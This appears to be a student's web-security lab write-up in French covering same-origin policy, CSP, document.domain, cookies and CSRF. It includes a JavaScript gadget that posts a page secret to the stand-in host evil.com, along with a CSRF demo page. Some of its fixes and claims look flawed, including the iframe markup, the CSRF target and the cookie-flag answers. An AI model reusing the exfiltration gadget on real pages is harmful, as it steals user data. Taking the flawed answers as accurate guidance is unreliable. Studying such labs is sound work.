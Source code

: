 # TP3

**Question 1 : Look at the code of [`integrator.html`](/src/tp3/ressources/integrator.html) and write code for `evilGadget.js` in such a way that evilGadget.js will send the secret to evil.com. Rewrite [`integrator.html`](/src/tp3/ressources/integrator.html) so the same origin policy will protect the secret.**

**Script : [tp3/ressources/integrator.html (localhost live)](http://host.com:8080/tp3/ressources/integrator.html) | [tp3/ressources/integrator.html (code)](/src/tp3/ressources/integrator.html)**

[evilGadget.js](/src/tp3/mycode/evilGadget.js)
[get_secret.php](/src/tp3/mycode/get_secret.php)

```js
const secret = document.getElementById("secret").innerText;

const urlAttackerSever = "http://evil.com:8080/tp3/mycode/get_secret.php";

const request = {
    method: "POST",
    headers: {
        'Content-Type': 'application/json',
    },
    body : JSON.stringify({ secret: secret })
};

fetch(urlAttackerSever, request)
```

**Deux solutions sont possibles :**

Ajouter un CSP (Content Security Policy) dans `integrator.html` pour empêcher le chargement du script `evilGadget.js` :

Il suffit d'ajouter la balise suivante dans le header de la page HTML :

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```

Réponse : [tp3/mycode/integrator_csp.html (localhost live)](http://host.com:8080/tp3/mycode/integrator_csp.html) | [tp3/mycode/integrator_csp.html (code)](/src/tp3/mycode/integrator_csp.html)

On remarque que le script `evilGadget.js` n'est pas chargé :

```js
Refused to load the script 'http://evil.com/tp3/mycode/evilGadget_fetch.js' because it violates the following Content Security Policy directive: "script-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback
```

**La seconde :**

Pour mettre en place le *SOP* (Same Origin Policy), afin de protéger le secret, il faut mettre une balise `<iframe>` au lieu d'une balise script. Comme la balise `<iframe>` sont conçue pour charger une page HTML dans une autre page HTML. Nous allons devoir créer une page HTML sur le site **`evil.com`**, contenant une balise script ayant pour source **`evilGadget.js`**.

```html
<!-- page web HTML sur evil.com -->
<html>  
<head>  
    <script src="http://evil.com:8080/mycode/evilGadget_fetch.js"></script>  
</head>  
<body>  
<h1>  
    Page from evil.com  
</h1>  
</body>
```

Le gadget est le même vu précédemment.

Nous devons ensuite modifier la page **integrator.html** de manière suivante, afin de changer la balise script par une balise iframe

```html
<!-- integrator.html sur host.com -->
<html>  
<h1>  
    Trusted page  
  
    <div id=secret>  
        42  
    </div>  
</h1>  
  
<iframe src="http://evil.com:8080/mycode/page.html">  
    <script src="http://evil.com:8080/mycode/evilGadget_fetch.js"></script>
</iframe>  
</html>
```

Finalement, le site `evil.com` ne peut plus récupérer le secret.

**Question 2 : Look at the [`sop2.html`](/src/tp3/ressources/sop2.html). From [`subdomain2.html`](/src/tp3/ressources/subdomainpage2.html) try to read the secret from the integrator, what happens according to SOP? How do you read the secret by using `document.domain`?**

Il n'est pas possible de récupérer le secret, car la source l'`iframe` ne provient pas de la même origine que le serveur hébergeant la page principale. La raison provient de la politique SOP appliquée par les iframes.

Pour pouvoir lire le secret, il faut changer le nom de domaine dans une balise script fournie par le serveur `subdomain.host.com`. Nous pouvons réaliser cela, en modifiant le fichier `subdomainpage.html` de la manière suivante :

```html
<html>  
<head>  
<h1> This is an iframe of different origin \(subdomain\)</h1>  
<script>  
    document.domain="host.com";  
    mydiv=document.getElementById("secret");  
    alert(mydiv.innerHTML);  
</script>  
</head>  
</html>
```

Nous devrions pouvoir afficher le secret dans une balise alert. En pratique, j'ai jamais réussi à le faire fonctionner.

**Question 3 : Write two different services from the same server that set a cookie.**  
**On the client side include a gadget et an try the following things:**

- let the gadget delete the cookie via JavaScript
- can the second service delete the cookie of the first? Justify why.
- let the gadget send the cookie to another server (you can use a different port to simulate this)
- does the previous item work if the gadget is inside a frame?
  - and if the gadget is inside a script and the cookie is initially set as httpOnly?
  - and if the gadget is inside a script and the cookie is initially set as secure?  

**Justify all your answers with code and explanations.**

Le second service peut supprimer le cookie du premier car, les deux scripts appartiennent au même domaine. Ils partagent donc le même espace de stockage au niveau du navigateur, incluant les cookies.

S'il est à l'intérieur d'une frame oui, après ça dépend de la politique SameSite du cookie.

Si le gadget est à l'intérieur d'un script et qu'il est en httpOnly ou en secure, il sera également envoyé.

**Question 4 : Implement a CSRF attack and explain then demonstrate what kind of SameSite cookie can mitigate this attack.**

Pour implémenter une CSRF, nous devons avoir une page web hébergée, par exemple sur `evil.com` qui réalise une requête sur un autre site, par exemple `host.com`.`

[csrf_attack.html](/src/tp3/mycode/csrf_attack.html)

```html
<!-- Page sur evil.com -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<h1>Attaque CSRF on evil.com to host.com</h1>
<script>
    const url = "http://evil.com:8080/random_ressouce.html";
    const request = {
        mode:  'no-cors',
        method: "GET",
        headers: {
            'Content-Type': 'application/json',
        },
    };

    fetch(url, request);
</script>
</body>
</html>
```

Les cookies de `host.com` sont envoyés au cours de la requête.
